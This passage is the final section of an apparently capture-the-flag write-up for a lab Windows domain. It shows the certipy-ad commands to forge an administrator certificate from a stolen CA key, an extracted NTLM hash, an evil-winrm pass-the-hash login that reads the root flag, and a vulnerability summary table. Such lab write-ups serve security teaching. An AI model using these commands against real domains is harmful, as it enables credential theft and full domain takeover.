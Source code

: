 ### Administrator Certificate Forgery
```bash
# Generate forged administrator certificate
certipy-ad forge -ca-pfx ca.pfx -upn administrator@certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out administrator_forged.pfx

# Certificate-based authentication
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.129.150.122
```

### Administrator Hash Extraction
**Result:** `administrator@certificate.htb:aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6`

---

## Phase 11: Domain Administrative Access

### Final Privilege Escalation
```bash
# Establish domain administrative session
evil-winrm -i certificate.htb -u administrator -H d804304519bf0143c14cbf1c024408c6
```

### Domain Compromise Validation
```powershell
# Verify domain administrative access
whoami
net group "Domain Admins" /domain

# Retrieve root flag
type C:\Users\Administrator\Desktop\root.txt
```

**Status:** ✅ **COMPLETE DOMAIN COMPROMISE**

---

## Vulnerability Summary

| **Vulnerability** | **CVSS Score** | **Impact** | **Exploit Method** |
|-------------------|----------------|------------|-------------------|
| ZIP Slip (CWE-22) | 8.1 (HIGH) | Arbitrary File Write | Path traversal via archive extraction |
| Database Credential Exposure | 7.5 (HIGH) | Credential compromise | Hardcoded database credentials |
| Weak Password Hashing | 6.2 (MEDIUM) | Account compromise | bcrypt cost factor 04 |
| Excessive AD Privileges | 7.8 (HIGH) | Lateral movement | Account Operators group membership |
| Windows Privilege Escalation | 8.4 (HIGH) | SYSTEM access | SeManageVolumePrivilege abuse |
| ADCS Misconfiguration | 9.8 (CRITICAL) | Domain takeover | Certificate authority private key access |

---